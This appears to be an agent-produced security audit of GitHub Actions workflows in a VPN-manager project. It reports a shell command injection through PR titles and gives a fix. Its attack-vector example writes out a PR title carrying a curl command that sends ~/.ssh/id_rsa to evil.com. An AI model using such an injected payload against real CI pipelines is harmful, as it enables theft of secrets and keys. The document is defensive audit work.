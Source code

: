# Agent Audit Report: GitHub Actions Workflows
**Date**: 2025-10-09
**Project**: ProtonVPN Manager
**Audit Scope**: GitHub Actions workflows and test suite
**Audited By**: security-validator, code-quality-analyzer, test-automation-qa

---

## Executive Summary

**Overall Rating**: **3.3/5 (66%)**
**Status**: Functional but requires hardening before production use

| Agent | Rating | Critical Issues | Recommendation |
|-------|--------|-----------------|----------------|
| **Security Validator** | 3.5/5 | 2 HIGH-severity | ⚠️ Fix immediately |
| **Code Quality Analyzer** | 3.8/5 | 1 HIGH-severity bug | ⚠️ Fix this week |
| **Test Automation QA** | 2.5/5 | Multiple gaps | ❌ Insufficient coverage |

**Production Readiness**: **60%** (85% after critical fixes)

---

## 🚨 Critical Issues

### SECURITY-001: Shell Command Injection (HIGH - CVSS 7.8)

**Location**: `.github/workflows/pr-title-check.yml:15`

**Vulnerability**: PR titles are directly interpolated into shell commands without sanitization.

**Attack Vector**:
```yaml
# Attacker creates PR with title:
"; curl https://evil.com/steal?data=$(cat ~/.ssh/id_rsa) #

# Workflow executes:
TITLE="; curl https://evil.com/steal?data=$(cat ~/.ssh/id_rsa) #"
# The curl command runs in GitHub Actions environment!
```

**Impact**:
- Code execution in GitHub Actions environment
- Potential secret exposure
- CVSS Score: 7.8 (HIGH)

**Remediation** (CRITICAL - Implement immediately):
```yaml
# REPLACE shell-based validation
- name: Check PR title follows conventional format
  run: |
    TITLE="${{ github.event.pull_request.title }}"
    if ! [[ "$TITLE" =~ ^(feat|fix).*$ ]]; then
      echo "Invalid title"
      exit 1
    fi

# WITH github-script (safe):
- name: Check PR title follows conventional format
  uses: actions/github-script@v7
  with:
    script: |
      const title = context.payload.pull_request.title;
```